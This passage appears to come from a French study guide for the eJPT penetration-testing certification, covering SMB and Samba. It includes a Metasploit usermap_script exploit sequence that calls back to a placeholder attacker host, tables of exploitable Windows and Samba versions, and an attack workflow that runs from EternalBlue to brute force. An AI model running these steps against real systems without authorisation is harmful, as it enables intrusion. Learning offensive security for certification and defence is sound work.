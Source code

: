### Scénario 3: Samba Linux
```bash
# 1. Détection Samba
enum4linux target | grep Samba

# 2. Si version vulnérable → Exploitation
use exploit/multi/samba/usermap_script
set RHOSTS target
set LHOST attacker_ip
exploit
```

---

## 🚨 11. Indicateurs de vulnérabilités SMB

### Versions Windows vulnérables
| OS | EternalBlue | MS08-067 | Autres |
|----|-------------|----------|---------|
| **Windows XP** | ❌ | ✅ | MS06-025, MS09-050 |
| **Windows 2003** | ❌ | ✅ | MS06-025, MS09-050 |
| **Windows Vista** | ❌ | ✅ | MS09-050, MS10-054 |
| **Windows 7** | ✅ | ❌ | MS10-054, MS10-061 |
| **Windows 8** | ✅ | ❌ | Rare |
| **Windows 10** | ✅ (old) | ❌ | Patchés rapidement |
| **Windows 2008** | ✅ | ❌ | MS10-054 |
| **Windows 2012** | ✅ | ❌ | MS10-054 |
| **Windows 2016** | ✅ | ❌ | Rare |

### Versions Samba vulnérables
| Version | CVE | Exploit |
|---------|-----|---------|
| **3.0.20-3.0.25rc3** | CVE-2007-2447 | usermap_script |
| **3.5.0-4.6.4** | CVE-2017-7494 | SambaCry |
| **3.6.3-4.6.16** | CVE-2012-1182 | setinfopolicy_heap |

---

## 💡 12. Conseils et astuces eJPT

### Workflow SMB recommandé pour eJPT
1. **Découverte** : `nmap -p139,445 -sV target`
2. **OS/Version** : `nmap --script smb-os-discovery target`
3. **EternalBlue check** : `nmap --script smb-vuln-ms17-010 target`
4. **Si EternalBlue** → Exploitation directe
5. **Si pas EternalBlue** → enum4linux + null sessions
6. **Brute force** si nécessaire
